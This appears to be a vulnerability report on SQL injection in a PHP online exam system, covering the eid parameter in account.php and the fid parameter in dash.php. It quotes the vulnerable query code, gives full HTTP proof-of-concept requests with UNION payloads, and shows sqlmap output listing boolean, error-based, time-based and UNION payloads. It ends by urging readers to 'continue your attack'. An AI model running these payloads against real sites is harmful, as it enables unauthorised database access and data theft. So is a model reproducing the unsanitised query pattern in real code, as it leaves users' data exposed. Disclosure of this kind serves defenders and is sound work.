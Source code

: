 # online-exam-mastering-system has  SQL injection vulnerability 

## supplier

https://code-projects.org/online-exam-mastering-system-php/

## Vulnerability file

account.php、dash.php 

Prerequisite: You need to log in first

## describe

in account.php

~~~php+HTML
if(@$_GET['q']== 'result' && @$_GET['eid']) 
{
$eid=@$_GET['eid'];
$q=mysqli_query($con,"SELECT * FROM history WHERE eid='$eid' AND email='$email' " )or die('Error157');
echo  '<div class="panel">
<center><h1 class="title" style="color:#660033">Result</h1><center><br /><table class="table table-striped title1" style="font-size:20px;font-weight:1000;">';

~~~

We can control the parameters of q and EID, and there are no protective measures in the following SQL statements, so directly splicing SQL statements can cause SQL injection

# POC

~~~
GET http://127.0.0.1/account.php?q=result&eid=1%27%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,NULL,database(),NULL,NULL%23 HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=58cv9hn8ommu0em8roqc9alt9h
Connection: keep-alive


~~~



---

in dash.php

~~~php
<?php if(@$_GET['fid']) {
echo '<br />';
$id=@$_GET['fid'];
$result = mysqli_query($con,"SELECT * FROM feedback WHERE id='$id' ") or die('Error');
while($row = mysqli_fetch_array($result)) {
	$name = $row['name'];
	$subject = $row['subject'];
	$date = $row['date'];
	$date= date("d-m-Y",strtotime($date));
	$time = $row['time'];
	$feedback = $row['feedback'];
	
echo '<div class="panel"<a title="Back to Archive" href="update.php?q1=2"><b><span class="glyphicon glyphicon-level-up" aria-hidden="true"></span></b></a><h2 style="text-align:center; margin-top:-15px;font-family: "Ubuntu", sans-serif;"><b>'.$subject.'</b></h1>';
 echo '<div class="mCustomScrollbar" data-mcs-theme="dark" style="margin-left:10px;margin-right:10px; max-height:450px; line-height:35px;padding:5px;"><span style="line-height:35px;padding:5px;">-&nbsp;<b>DATE:</b>&nbsp;'.$date.'</span>
<span style="line-height:35px;padding:5px;">&nbsp;<b>Time:</b>&nbsp;'.$time.'</span><span style="line-height:35px;padding:5px;">&nbsp;<b>By:</b>&nbsp;'.$name.'</span><br />'.$feedback.'</div></div>';}
}?>
~~~

We can control the FID parameters artificially, and there are no protective measures in the following SQL statements, so directly splicing SQL statements can cause SQL injection

# POC

~~~
GET http://127.0.0.1/dash.php?q=3&fid=5589858b6c43b%27%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,NULL,database(),NULL,NULL--%20- HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=58cv9hn8ommu0em8roqc9alt9h
Connection: keep-alive

~~~

You can see that there is a database name in the return package, which causes SQL injection

# Exploit

~~~
sqlmap -r 1 --dbs
~~~

~~~
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: eid (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: q=result&eid=1' OR NOT 5331=5331#
    Vector: OR NOT [INFERENCE]#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: q=result&eid=1' AND GTID_SUBSET(CONCAT(0x7171707071,(SELECT (ELT(5894=5894,1))),0x716b627871),5894)-- kXiK
    Vector: AND GTID_SUBSET(CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]'),[RANDNUM])

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: q=result&eid=1' AND (SELECT 1313 FROM (SELECT(SLEEP(5)))qaUX)-- IUKU
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])

    Type: UNION query
    Title: MySQL UNION query (NULL) - 7 columns
    Payload: q=result&eid=1' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x7171707071,0x614e76796d484f51794a647655646e43484876566e446e67764364464f4363704f585969526d707a,0x716b627871),NULL,NULL#
    Vector:  UNION ALL SELECT NULL,NULL,NULL,NULL,[QUERY],NULL,NULL#
---

~~~

use sqlmap to continue your attack.
